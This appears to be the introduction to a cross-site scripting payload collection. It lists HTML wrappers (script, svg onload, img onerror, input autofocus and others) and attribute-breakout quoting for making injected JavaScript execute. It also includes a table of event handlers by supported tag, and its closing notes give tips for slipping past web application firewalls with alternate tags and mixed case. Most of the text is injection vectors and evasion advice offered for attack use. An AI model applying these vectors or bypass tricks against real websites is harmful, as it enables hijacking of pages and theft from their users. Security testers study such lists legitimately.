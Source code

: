 # Introduction

The payloads described in the various files need wrapping to put them in a JavaSscript context (unless the injection ends up already inside a JS context, which is rare). Possible ways to execute a payload are:

* If injection ends up outside of an HTML tag:
  * `<script>`**_payload_**`</script>`
  * `<svg/onload="`**_payload_**`"/>`
  * `<img/onerror="`**_payload_**`"/src=x>`
  * `<style/onload="`**_payload_**`"></style>`
  * `<input/onfocus="`**_payload_**`"/autofocus>`
  * `<marquee/onstart="`**_payload_**`"></marquee>`
  * `<div/onwheel="`**_payload_**`"/style="height:200%;width:100%"></div>`
  * `<div/onmouseover="`**_payload_**`"/style="height:100%;width:100%"></div>`
  * ... many more, see below table for event attributes and supported tags
* If injection ends up inside an HTML tag's attribute:
  * `" `**_event_**`="`**_payload_**
  * `' `**_event_**`='`**_payload_** *(replace single quotes in payload with double quotes)*

##### Event handlers
Possible events and the supported HTML tags are:

| event         | supported HTML tags |
|---------------|---------------------|
| onload        | body, frame, frameset, iframe, img, input type="image", link, script, style |
| onchange      | input type="checkbox", input type="file", input type="password", input type="radio", input type="range", input type="search", input type="text", select, textarea |
| onkeyup       | **all except** base, bdo, br, head, html, iframe, meta, param, script, style, title |
| onmouseover   | &#x2014;"&#x2014; |
| onblur        | &#x2014;"&#x2014; |
| onfocus       | &#x2014;"&#x2014; |
| onclick       | &#x2014;"&#x2014; |
| onmouseover   | &#x2014;"&#x2014; |
| onmouseout    | &#x2014;"&#x2014; |
| oncontextmenu | **all, but it can only be triggered if the element takes space on the page** |
| onwheel       | &#x2014;"&#x2014; |
| ondrag        | &#x2014;"&#x2014; |
| ondrop        | &#x2014;"&#x2014; |
| oncopy        | &#x2014;"&#x2014; |
| oncut         | &#x2014;"&#x2014; |
| onpaste       | &#x2014;"&#x2014; |
| onscroll      | address, blockquote, body, caption, center, dd, dir, div, dl, dt, fieldset, form, h1&#x2014;h6, html, li, menu, object, ol, p, pre, select, tbody, textarea, tfoot, thead, ul |
| oninvalid     | input |
| oninput       | input type="password", input type="search", input type="text", textarea |
| onsearch      | input type="search" |
| onselect      | input type="file", input type="password", input type="text", textarea |
| onreset       | form |
| onsubmit      | form |

##### NOTES
* Some WAFs block only some html tags (e.g. `<script>`), but not other tags, so don't give up after trying a few that got rejected.
* Some WAFs do a poor job and fail to block HTML tags or attributes when they are capitalized (or mixed case). Give that a try.
* Many event handlers require user action. See more at `https://www.w3schools.com/TAGS/ev_`**_event_**`.asp`
